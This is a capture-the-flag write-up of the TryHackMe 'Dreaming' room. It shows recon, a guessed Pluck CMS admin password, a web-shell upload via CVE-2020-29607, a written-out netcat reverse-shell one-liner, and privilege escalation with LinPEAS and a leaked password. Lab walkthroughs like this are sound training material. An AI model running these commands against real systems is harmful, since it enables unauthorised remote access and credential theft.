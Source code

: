 # THM-Dreaming
![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5997701d-4379-41d2-b2bc-e2f97f37c4f4)



Personal attempt on THM CTF Challenge. [DREAMING](https://tryhackme.com/room/dreaming))

RECON 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/084772cd-94f9-46ba-b317-6d805eaa61e6)

Access the target's website, we can only see Apache's default site. Let's do some directory enumeration with nmap and http-enum script. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/016a5d24-38de-470c-8170-120b0a79eab5)

Accessing the directoy, we know that the web is using Pluck CMS 4.7.13

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/48925c1d-2d60-4869-903a-3c3c75efb00a)

EXPLOIT

Upon a quick Google search, we can tell that this version of Pluck is vulnerable to an Authenticated File Upload, as documented in CVE-2020-29607. However, first we need to authenticate. 
With some luck, I was able to guess the password. It's password (not very secured 🔒)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/944c85b0-9e3d-4599-aeaa-10cd9273ee47)

The mentioned vulnerability allows an attacker to upload a web shell to the directory http://IP/admin.php?action=files to gain a webshell. This abuses the "manage files" functionality of the app.
I use this PoC from Github: https://github.com/0xAbbarhSF/CVE-2020-29607
Usage: python3 exploit.py TARGET IP TARGET PORT password pluck-cms-path

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5b4795d2-805a-4e65-b5ba-a046e22eeafc)

Now, for more control and convenience, we want a reverse shell. I personally like to use the methods from
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

On your attack machine, start a Netcat listener on a random unused port.
nc -lvnp 1234

Then run this on the webshell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
Remember to replace the IP with the IP of your attack machine. 

Wait a few a moment, then we receive a shell of the target machine as www-data. www-data is the owner of files under the web server directory.  

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/325565e4-6740-4f61-be04-977d00d318bb)

To gain a more stable shell, we can use the command:
python3 -c 'import pty;pty.spawn("/bin/bash")

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/d7cd8071-55ff-47ed-b56e-42da593972ef)

PRIVILEGE ESCALATION


![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5e59087c-b25e-49f9-97dd-7ad1978fe37c)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/07a3dbb9-dee1-4bae-aaf0-164eac7ab22e)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/eac83ba7-0d52-4a95-aa16-d7d46a750ad8)

As you can see, www-data don't have read access to the flags so, in order to get the flags, we need to find ways to escalate to higher privileges. I am using [LinPeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)

To transfer it to the target machine, we can use the manage files nav bar (under Pages). Then script will be available at /var/www/html/files/linpeas.sh

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/05e6436c-6894-4ba0-b302-fee782a6f0be)


![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/6b71812c-f6a9-4f57-a5fc-2278f753f47d)

Thanks to LinPEAS, we find some interesting files: 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/6506e51b-dce4-4049-bf7b-ff6baf43a8f5)

LUCIEN
Opening the test.py, we found Lucien password

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/b131a147-6ccb-4ea0-9b44-329fd18df755)

We can now SSH to the target using lucien's credential. The flag is found under his home directory.

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/49d3c69a-2c2d-4440-af22-a8cd8775df65)










